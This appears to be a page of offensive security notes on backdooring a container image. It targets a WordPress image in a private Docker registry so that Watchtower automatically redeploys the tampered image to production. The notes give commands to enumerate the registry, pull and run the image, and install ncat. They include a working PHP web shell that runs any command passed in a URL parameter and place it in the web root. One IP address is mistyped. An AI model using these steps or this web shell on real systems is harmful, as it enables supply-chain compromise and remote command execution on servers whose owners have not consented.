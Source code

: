 


# Backdoor

## Auto Deployment

- The next step is to corrupt an image to use it to our advantage. 
- However, we rely on the system administrator to deploy our image.

> In some environments, devs, in agreement with sys admins, deploy their containers tied to another container called *Watchtower*. 

- *Watchtower* monitors for any modifications made to the image and, upon detection, automatically deploys the container with the new image to ensure the service is always up-to-date.
- The major issue with this update policy is that Watchtower requires somewhat insecure permissions to manage the process.

**Scenario**: An instance of Watchtower deployed on the host server ensures that the latest image available in the private repository is used for the web server container.

Inspect the registry:
```bash
curl -s 192.168.1.100:5000/v2/_catalog
```

> There is a wordpress image there!

Download the image:
```bash
docker pull 192.168.1.100:5000/wordpress
```


Now create a container with this image and make modifications (nothing too big to not change to mush the size of the image):
```bash
docker run -dit --name wordpress -p 8080:80 192.68.1.100:5000/wordpress:latest
```

Enter the container to make the adjustments we deem necessary:
```docker
docker exec -it wordpress bash
```

```bash
apt update && apt install ncat
```

create a malicious php:
```php
<?php
$output=shell_exec($_GET["cmd"]);
echo $output;
?>
```

> Move the shell.php file to the /var/www directory.
